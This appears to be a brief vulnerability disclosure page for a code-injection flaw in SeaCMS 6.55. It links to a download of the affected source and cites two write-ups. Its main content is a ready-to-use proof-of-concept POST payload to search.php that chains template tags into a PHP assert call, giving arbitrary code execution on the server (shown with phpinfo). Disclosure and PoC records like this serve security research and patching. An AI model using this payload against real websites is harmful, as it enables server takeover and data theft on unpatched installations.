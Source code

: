 ## Affected Version 6.55

链接:https://pan.baidu.com/s/1UmbsQjQ4o4JFtK1MLHtf3g  
密码:k4x1

## POC

	http://192.168.0.6/seacms655/search.php?phpinfo(); 
	post:
	searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*

![](http://opmi2ydgh.bkt.clouddn.com//18-7-18/40373679.jpg)

## References

[海洋CMS（SEACMS）新版本V6.55补丁仍可被绕过执行任意代码](http://www.freebuf.com/vuls/150303.html)

[seacms 6.55 代码注入漏洞](https://github.com/SukaraLin/php_code_audit_project/blob/master/seacms/seacms%206.55%20%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)